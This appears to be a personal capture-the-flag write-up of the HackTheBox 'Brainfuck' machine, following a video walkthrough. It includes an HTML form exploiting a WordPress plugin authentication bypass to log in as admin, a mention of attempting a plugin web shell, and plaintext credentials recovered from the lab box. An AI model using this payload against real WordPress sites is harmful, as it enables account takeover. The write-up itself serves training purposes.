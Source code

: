 ![cookies](forumcookies.png)

## Start the Video

Started the [Brainfuck Ippsec Video](https://www.youtube.com/watch?v=o5x1yg3JnYI) as a good hour of scanning and walking each subdomain and testing and gathering information. Paused Video at 6:54, checked [RCE directory exists](https://wpscan.com/vulnerability/85d3126a-34a3-4799-a94b-76d7b835db5f) - Nope.

```bash
grep "includes/admin/attachment/" feroxbuster/brainfuck-raft-small-words
# Nothing..
```
Continued with video, I tried admin@brainfuck.htb to pre-emptively skip a step of trying this exploit. It failed. Changed it to the email found in the Cert and nmap scan.
```html
<form method="post" action="http://wp/wp-admin/admin-ajax.php">
        Username: <input type="text" name="username" value="admin">
        <input type="hidden" name="email" value="admin@brainfuck.htb">
        <input type="hidden" name="action" value="loginGuestFacebook">
        <input type="submit" value="Login">
</form>
```

## Exploit
This was awesome cookie exploit. Simply T(Undescriptive);D(id)R(ead, but hey here is an explanation) the 41006.txt file is that wp_set_auth_cookie can leveraged to force the wp service request the attacker browser set the cookies to the cookies of a logged in user. 

![wow](thatisnuts.png)

Paused the video again and tried to create or edit a wordpress plugin for a web shell; the connection hangs for the former and any changes are lost given that the files on box need to be writable to allow for pasting in a webshell. Continued with the video...

Settings ->  Easy WP SMTP -> 

![](smtpcreds.png)

Never done this before!
```
SMTP:orestis kHGuERB29DNiNE
```
Paused video, research other people OSCP SMTP Cheatsheets to compile into my own. Also want to find a good cli email client that can be scripted instead of evolution. This seemed like a bit of rabbit hole, for another day..

## Returning two days later
![rootsendsmail](rootsendsmail.png)

```
orestis : kIEnnfEKJ#9UmdO
```
